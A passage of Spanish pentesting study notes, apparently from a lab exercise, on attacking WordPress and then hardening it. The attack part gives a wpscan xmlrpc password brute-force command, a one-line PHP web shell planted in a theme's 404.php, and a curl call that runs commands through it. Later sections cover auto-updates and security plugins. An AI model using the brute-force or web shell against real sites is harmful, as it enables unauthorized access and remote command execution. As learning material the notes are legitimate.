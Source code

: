 ## [](#header-2)Ataque a usuarios
wpscan tiene 2 ataques, el de login tarda mas.
```s 
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

Una vez teniendo acceso de admin, Podemos ejecutar una shell para php, empezamos yendonos a Temas, /Editor de temas, escogemos un ema que no esté en uso y un archive del tema, se usa en el ejemplo el 404.php y yo prefer borrar todo el contenido de ese archivo por ejemplo
```php
<?php system($_REQUEST['cmd']); ?>
```
```s
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```
## [](#header-2)Hacking con msf
Podemos usar el modulo wp_admin_shell_upload, pero necesitamos credenciales con permisos de escritura

## [](#header-2)Hardening a wordpress
### [](#header-3)Buenas practicas
Hacer actualizaciones constantes, se recomienda habilitar en el archivo wp-config.php las lineas siguientes
```php
#
#Actualizacion automatica de wordpress
define( 'WP_AUTO_UPDATE_CORE', true );
#Actualizacion automatica de pllugins
add_filter( 'auto_update_plugin', '__return_true' );
#Actualizacion automatica de temas
add_filter( 'auto_update_theme', '__return_true' );
```

### [](#header-3)Gestion de Plugins y temas
Instalar solo plugins y temas confiables (revisar los revies, popularidad, numero de instalaciones y ultima actualizacion) de worpress.com.
Siempre tener actualizados los plugins y temas, Eliminar cualquier tema que ya no este en uso.
### [](#header-3)Mejorar la seguridad de Wordpress
Hay varios plugins que nos pueden ayudar a mejorar la seguridad del website

* <a href="https://wordpress.org/plugins/sucuri-scanner/">Sucuri Security</a> 
Este plugin contiene las siguientes reglas de seguridad:
   - Security Activity Auditing
   - Monitoreo de Integridad de los archivos
   - Escaneo remoto de malware
   - Monitoreo de ListaNegra

* <a href="https://wordpress.org/plugins/better-wp-security/">iThemes Security</a>
Este plugin nos ofrece mas de 30 formas de proteger nuestro sitio como:
   - MFA
   - Wordpress Salts & Security Keys
   - Google reCAPTCHA
   - User Action Logging
